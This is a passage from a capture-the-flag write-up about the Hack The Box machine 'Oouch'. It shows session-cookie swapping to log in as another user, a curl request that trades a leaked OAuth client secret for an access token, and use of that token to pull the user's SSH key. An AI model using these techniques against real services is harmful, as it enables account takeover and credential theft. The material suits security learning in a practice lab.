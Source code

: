 ## Getting User Shell

I edited the cookie and replaced it with the old cookie and reloaded the page.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2027.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2027.png)

Now we can see I'm logged in as `qtc`.

We already got the client_id and client_secret so I can get the access_token.

```nix
root@kali:~/CTF/HTB/Boxes/Oouch# curl -X POST 'http://authorization.oouch.htb:8000/oauth/token/' -H "Content-Type: application/x-www-form-urlencoded" --data "grant_type=client_credentials&client_id=4muao51xk7wSAAMFe970Cr80vQaO8DusCEQW81fG&client_secret=IVehRabE8UzG9EQrzDUCy7gfupOlL15y5RKc10CeWFJT8f9zWjf3CylrUriGwEatsPvjOZyoIfagE1hF4GgKAEV9ETNuZ2N5cUx5kEMWeuTaGVSl89gzPFwoJeEE0vEI" -L -s

{"access_token": "vcvGfw7s9nDlRDedGKFgEOsDfw127H", "expires_in": 600, "token_type": "Bearer", "scope": "read write"}
```

Using that token, after some fuzzing I used `get_ssh` to grab the user's ssh key.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2028.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2028.png)
